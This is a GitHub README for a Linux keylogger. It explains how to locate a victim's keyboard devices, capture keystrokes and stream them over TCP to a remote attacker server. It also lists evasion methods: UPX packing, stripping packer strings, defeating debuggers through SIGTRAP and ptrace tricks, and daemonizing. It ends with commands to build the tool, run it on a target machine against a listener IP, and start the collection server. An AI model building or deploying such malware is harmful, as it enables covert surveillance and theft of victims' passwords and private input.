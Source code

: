 # 4 k3yl0gg3r f0r r341 h4x0r5 !!1

![Diagram](./.github/diagram_keylogger.png)

## Credits

Made in collaboration with:

- [Adina C.](https://github.com/darksailormoonlight)
- [Nils H.](https://github.com/nilshammond)

## How can I write one of my own ?

There is many steps to do a project of the sort. First, you will need to find
the victim's keyboard of course ! For this, I invite you to check on your Linux
install the directory `/dev/input/by-path/` and you should see a symlink ending
with `kbd`. That's your keyboard. You can see that it points to an event in the
parent directory. You should be able to find this event using the `readlink()`
function. You can read my code in `logger/sources/get_keyboard.c` to check how
I did it. :)

You can also take into account that there might be multiple keyboards, because
the victim has a USB keyboard plugged in, for instance. To circonvent that, I
chose to store every file descriptor matching the description of a keyboard,
and use the `select` syscall to find one when I can read on one of them.
I invite you to read the `man` page of `select` for more information about this.

Once you have found the keyboard(s), and opened it (or them), you will to store
your logs somewhere, right ? For tests purposes, I just added the IP of a cheap
VPS in a `#define`, and set up the server part there. For the socket creation,
I used the TCP Protocol, and just used `connect` to connect to my distant server.
I did not do anything else, as I have not implemented any Remote-Access
functionnality, and it just sends data forever. I also set up a log file, in
`/tmp/` for testing purposes.

Now, let's go over the fun part: the logger in itself ! You will need to get a
`char` array containing all the keys that can be typed. It is defined in
`/usr/include/linux/input.h` on my machine, but it can be different for you.
Next, you will use `select` to check when you can read new keys, or just call
`read` until the return value is -1, if you only have one keyboard.

At this point, you have your basic keylogger, it is absolutely not obfuscated,
does not handle SHIFT keys, but this is a good base. Here are a few ideas of
things I implemented, or want to implement:

### Obfuscation

- using the UPX packer to compress your binary and remove unecessary section
headers (you will need to compile with `-static`)
- implementing a `sigaction` that renders `SIGTRAP` useless, so that debuggers
 like GDB do not work
- check if `ptrace` is currently called on your program, to disable debuggers
 like GDB
- created a simple script that will remove the strings from the compressed
binary indicating it has been packed with UPX

### Features

- support non-QWERTY keyboard layouts
- set up a wrapper around the time where you write logs, by nullifying `SIGPIPE`
when writing, so that it won't abruptly fail
- support SHIFT keys
- daemonize the program (see `./logger/sources/main.c`)
- basic XOR encryption (upgrade to SSL if possible)

## How do I use the keylogger ?

to compile, just launch the `compile_logger.sh` script like so:

```sh
# installing UPX packer for Ubuntu
sudo apt install -y upx && sh compile_logger.sh
```

To launch the keylogger, you will need admin access to the target machine,
and from there, start the program. You will have to pass the listener's IP like so:

```sh
./k3yl0gg3r ${SERVER_IP}
```

## Server

```sh
pip install -r requirements.txt && python3 ./server/TCP_handler.py
```

Output will be stored in `.logkeys.csv`
